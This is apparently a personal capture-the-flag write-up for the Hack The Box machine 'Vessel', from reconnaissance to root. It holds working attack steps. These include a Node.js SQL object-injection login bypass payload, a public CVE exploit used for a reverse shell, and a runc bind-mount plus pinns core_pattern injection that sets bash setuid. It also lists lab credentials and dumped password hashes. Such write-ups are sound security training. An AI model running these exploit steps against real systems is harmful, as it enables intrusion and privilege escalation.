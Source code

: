 # Vessel

---

## Recon

0. Port 22, 80
1. Found domain name from site when connected to IP all the way to the bottom
2. Found /dev/ dir
3. Assumed there's /.git/ and found
4. git-dumper to get all
5. git whatchanged -> git diff, found sql injection vuln
6. Nodejs SQL Object Injection using BurpSuite: username=admin&password[password]=1
https://www.stackhawk.com/blog/node-js-sql-injection-guide-examples-and-prevention/
7. Found subdomain `openwebanalytics.vessel.htb` at the view analytics thing
8. CVE-2022-24637: https://github.com/garySec/CVE-2022-24637/blob/main/exploit.py -> revshell
9. mysql -> got admin password, wasnt needed anyways, but it's there
10. got `passwordGenerator` -> reverse engineer it ->
Decompile the executable using pyinstxtractor to get a .pyc file that cointains the byte code.

Then, use uncompyle6 to decompile passwordGenerator.pyc.
password: `YG7Q7RDzA+q&ke~MJ8!yRzoI^VQxSqSS`
Ethan's password: `b@mPRNSVTjjLKId1T` -> user!

11. CVE-2021-3560

first SSH:

runc spec --rootless -> runc --root /tmp/pwn run alpine

Inside the "mounts" section of the create config.json add the following lines:
{
    "type": "bind",
    "source": "/",
    "destination": "/",
    "options": [
        "rbind",
        "rw",
        "rprivate"
    ]
},

second SSH:

echo -e '#!/bin/sh\nchmod +s /usr/bin/bash' > /tmp/pwn/e.sh && chmod +x /tmp/pwn/e.sh
pinns -d /var/run -f 844aa3c8-2c60-4245-a7df-9e26768ff303 -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwn/e.sh #' --ipc --net --uts --cgroup

back to first:

ulimit -c unlimited
tail -f /dev/null &
ps
    PID TTY          TIME CMD
      1 pts/0    00:00:00 sh
     12 pts/0    00:00:00 tail
     13 pts/0    00:00:00 ps
bash -i
bash: /root/.bashrc: Permission denied
root@runc:/# kill -SIGSEGV 12
root@runc:/# ps
    PID TTY          TIME CMD
      1 pts/0    00:00:00 sh
     14 pts/0    00:00:00 bash
     17 pts/0    00:00:00 ps


back to second:

ethan@vessel:~$ ls -ls /usr/bin/bash
1160 -rwsr-sr-x 1 root root 1183448 Apr 18 09:14 /usr/bin/bash
ethan@vessel:~$ bash -p
bash-5.0# cd /root
bash-5.0# cat root.txt

---

db cred:
db: {
        host     : 'localhost',
        user     : 'default',
        password : 'daqvACHKvRn84VdVp',
        database : 'vessel'
}

mysql> select * from accounts;
select * from accounts;
+----+----------+----------------------------------+------------------+
| id | username | password                         | email            |
+----+----------+----------------------------------+------------------+
|  1 | admin    | k>N4Hf6TmHE(W]Uq"(RCj}V>&=rB$4}< | admin@vessel.htb |
+----+----------+----------------------------------+------------------+
1 row in set (0.00 sec)

find /home 2>/dev/null
/home
/home/steven
/home/steven/passwordGenerator
/home/steven/.bashrc
/home/steven/.notes
/home/steven/.notes/screenshot.png
/home/steven/.notes/notes.pdf
/home/steven/.profile
/home/steven/.bash_logout
/home/steven/.bash_history
/home/ethan


---

## Foothold

